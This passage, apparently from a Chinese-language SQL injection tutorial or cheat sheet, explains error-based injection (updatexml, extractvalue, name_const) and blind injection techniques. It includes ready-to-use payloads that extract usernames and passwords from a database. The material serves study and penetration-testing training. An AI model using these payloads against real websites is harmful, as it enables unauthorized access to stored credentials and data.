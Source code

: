     updatexml(xml_target,xpath_expr,new_xml)
    #此函数用新的xml片段new_xml替换xml标记xml_target的给定片段的单个部分，然后返回更改的xml。被替换的xml_target的部分与用户提供的xpath表达式xpath_expr匹配。例如
    id=1' and updatexml(1,concat(0x5e24,(select username from users limit 0,1)),1)--+
    
    name_const(name,value)
    # 用于生成结果时，name_const()会使列具有给定的名称。参数应该是常量。它和select value as name是等价的。我们可以构造两个列使得它们名字一样并在列名中填写获得我们想要的信息的语句。
    
    
    ```

- 解决返回结果限制在32位字符。

    ```sql
    substr(字符串,截取开始位置,截取长度) #返回截取的字
    #left函数，right函数
    extractvalue(0x0a,concat(0x0a,(select(left(password,20))from(H4rDsq1))))%23
    ```

### 盲注

> 利用前提：页面上没有显示位，也没有输出 SQL 语句执行错误信息。正确的 SQL 语句和错误的 SQL 语句返回页面都一样，但是加入 sleep(5)条件之后，页面的返回速度明显慢了 5 秒。
>
> 优点：不需要显示位，不需要出错信息。
>
> 缺点：速度慢，耗费大量时间

盲注要用到的函数

```sql
length(str)	返回字符串str的长度
if(expr1,expr2,expr3): 	 sql的if语句就相当于一个三元运算符，1对执行2，1错执行3
LEFT(character_expression,integer_expression);	返回字符串中从左边开始指定个数字符。
RIGHT(character_expression,integer_expression);	返回字符串从右边开始指定个数字符。
select mid('abcdefghijklmn',5,5);
substr()函数：	substr('123456',3,2);  结果是--34 
    #作用：用来截取数据库某个字段中的一部分。     
    #语法：substr(string,start,length)  下标从1开始
select ord('a');
ASCII(str)：	返回字符串str的最左字符的整数数值。
    #如果str为空字符串,返回0。如果str为NULL，返回NULL，。 ASCII()返回数值是从0到255。python ord功能和它一样，与之相反的是chr
sleep(n)	#睡眠函数，当函数执行时，会睡眠n秒，然后才唤醒进程。
benchmark函数，可以让同一个函数执行若干次	
Benchmark(count,expr) ，这个函数执行的结果，是将表达式 expr 执行 count 次 。benchmark(100000000,md5(1))

select user() regexp '^se';	#判断是不是以se开头的
select user() like 'se%'		#与上条语句含义相同

```

#### 布尔盲注

- 可以理解为给网站一个判断题，根据反应的对错来猜测数据库信息。
    - **适用场景**：没有数据回显，若条件正确有结果，否则没结果
    - **利用方式**：构造判断条件，逐个猜测
